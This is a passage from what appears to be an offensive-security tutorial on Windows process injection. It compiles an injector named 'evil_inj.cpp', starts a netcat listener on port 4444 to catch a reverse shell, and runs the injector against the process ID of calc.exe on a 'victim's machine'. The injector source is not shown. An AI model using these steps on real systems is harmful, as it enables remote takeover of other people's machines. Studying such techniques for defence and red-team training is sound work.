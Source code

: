 Let's go to compile this code:
```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![compile code injection](/assets/images/6/2021-09-19_00-36.png){:class="img-responsive"}

prepare listener:
```bash
nc -lvp 4444
```

and on victim's machine firstly execute `calc.exe`:
![run victim's process](/assets/images/6/2021-09-19_00-40.png){:class="img-responsive"}

Which we can see that the process ID of the `calc.exe` is  `1844`.

Then run our injector from victim's machine:
```cmd
.\evil2.exe 1844
```
